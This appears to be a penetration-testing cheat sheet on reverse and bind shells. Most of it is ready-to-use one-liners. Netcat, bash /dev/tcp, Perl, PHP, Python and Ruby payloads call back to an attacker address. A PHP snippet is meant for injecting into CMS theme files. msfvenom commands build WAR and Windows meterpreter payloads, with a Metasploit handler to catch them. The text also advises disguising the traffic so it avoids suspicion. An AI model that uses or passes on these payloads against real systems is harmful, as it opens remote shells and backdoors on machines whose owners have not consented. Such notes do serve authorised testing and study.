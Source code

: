 # Netcat Shells

Netcat is important to establish reverse and bind shells. 
Reverse Shells are initiated on the target host to connect back to the attack host. 
They can be initiated with many different languages, such as `PHP`, `ASP`, `Python`, `Ruby`, `Perl`, and `PowerShell`. 
If you can get code execution on a host, or can inject code, upload / file inclusion, this can be turned into a command line shell. For receiving a shell, we can use `Netcat`, `Metasploit` and `Empire`. 

A bind shell is similar, but instead of waiting to connect back to a host, it listens and waits for an incoming connection.
This can also be referred to as a backdoor, as the shell waits for a connection to be received.

### Reverse Shells

Reverse shells are great because they can skip by firewalls and NAT as it's an outbound connection.
An inbound connection might be deterred by several layers of security.
It is always important to disguise traffic as legitimate however, and `4444` could arouse suspicion. 

A listener establishes a waiting connection:
```bash
nc -lvp 4444
```

The target establishes a reverse shell:
```bash
nc 192.168.1.1 4444 -e /bin/sh
```

### NC Reverse Shell Example

This demonstration assumes that RCE is already available on the target.
We will

1. Setup a NC listener
2. Create the Reverse Shell from the target
3. Issues commands through the reverse shell

```bash
#Setup a listener
nc -lvp 4444

# Establish the reverse shell on the target
	# Linux
nc 192.168.100.113 4444 -e /bin/sh
	# Windows
nc.exe 192.168.100.113 4444 -e cmd.exe
```

### Reverse shell without Netcat

We either need to find a way to send the Netcat binary to the target, or use other means.
We can use a bash reverse shell:

```bash
bash -i >& /dev/tcp/[Attack box IP]/[Port] 0>&1
# -i invokes a new instance of bash
# >& redirects stdout and stderr to the TCP client created at the device file
# 0>&1 takes stdout and connects it to stdin
```

### Perl Reverse shell

```perl
perl -e 'use Socket;$i="[Attack box IP]";$p=[Port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### PHP Reverse Shell

If PHP on the host, such as a webserver, you can use a single line to retrieve a shell:

```php
php -r '$sock=fsockopen("[Attack box IP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you have the ability to inject PHP code (such as a theme file or CMS in a plugin), you can inject:
```php
$sock=fsockopen("[Attack box IP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");
```

A more advanced reverse shell script [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

### Python reverse shell 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[Attack box IP]",[Port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby Reverse Shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[Attacker IP]","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# For windows targets:
ruby -rsocket -e 'c=TCPSocket.new("[Attacker IP]","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### WAR Reverse Shell

A WAR (Web Application Archive or Web Application Resource) can be created as a reverse shell using msfvenom. Typically WAR files are used for Tomcat server as web applications.

```shell
# Create a jsp reverse shell as a WAR file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[LHOST IP] LPORT=[PORT] -f war > /root/Desktop/shell.war

# Upload and deploy the WAR to the target Apache Tomcat server
# Once deployed, we receive a shell
```

### Windows binary reverse shell

```shell
# If the target is Windows
msfvenom -a x86 –platform Windows -p windows/meterpreter/reverse_tcp LHOST=[IP attackbox] LPORT=4444 -f exe -o /tmp/exploit.exe

# Using Metasploit to catch reverse shell
msfconsole
# Setting up a multi-handler exploit
use exploit/multi/handler
# Set the payload
set payload windows/meterpreter/reverse_tcp
set lhost ppp0
set lport 4444
run
```

## Bind Shell

A bind shell is when the target is listening, waiting to receive a connection from the attacker.  The biggest issues here are having available routes - NAT can obfuscate the routing behind the edge. Additionally, it can only be bound to an open / unused port. Blocking from firewalls can occur on unknown / uncommon ports - you'd be able to setup the listener, but not be able to connect.

```bash
# Target
nc -lvp 4444 -e /bin/sh
# Attacker
nc 192.168.1.2 4444
```

### Upgrading from Netcat to interactive

Hitting `Ctrl-c` drops the entire shell instead of cancelling the current command.
You can't run interactive commands like `su` or `ssh` as these spawn new sessions. 
You can't use text editors like `Vim` or `Nano`
Tab completion, and command history would be missing. 

We can overcome these issues by switching / achieving an interactive TTY (terminal). 

### Python pty 

```python
# Creates a pseudo terminal - acts like a terminal but sends I/O to another program
python -c 'import pty; pty.spawn("/bin/bash")'
```



